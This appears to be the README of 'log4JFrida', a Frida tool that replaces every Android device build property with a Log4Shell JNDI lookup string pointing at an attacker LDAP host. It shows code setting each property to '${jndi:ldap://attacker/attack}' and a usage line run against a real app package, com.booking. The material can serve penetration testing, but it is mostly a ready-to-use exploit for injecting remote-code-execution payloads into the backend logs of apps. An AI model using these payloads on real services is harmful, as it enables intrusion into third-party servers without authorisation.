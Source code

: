 # log4JFrida

Modifies all device characteristicts in order to return a Log4j payload instead:

**Example**:

```    
    buildProperties.MODEL.value="${jndi:ldap://attacker/attack}";
​    buildProperties.DEVICE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BOARD.value="${jndi:ldap://attacker/attack}";
​    buildProperties.PRODUCT.value="${jndi:ldap://attacker/attack}";
​    buildProperties.HARDWARE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.FINGERPRINT.value="${jndi:ldap://attacker/attack}"
​    buildProperties.MANUFACTURER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BOOTLOADER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BRAND.value="${jndi:ldap://attacker/attack}";
​    buildProperties.HOST.value="${jndi:ldap://attacker/attack}";
​    buildProperties.ID.value="${jndi:ldap://attacker/attack}";
​    buildProperties.DISPLAY.value="${jndi:ldap://attacker/attack}";
​    buildProperties.TAGS.value="${jndi:ldap://attacker/attack}";
​    buildProperties.SERIAL.value="${jndi:ldap://attacker/attack}";
​    buildProperties.TYPE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.USER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.UNKNOWN.value="${jndi:ldap://attacker/attack}";
```



**Requirements**: Frida

Usage:

```$python3 log4Frida.py com.booking  '${jndi:ldap://attacker/a}' ```

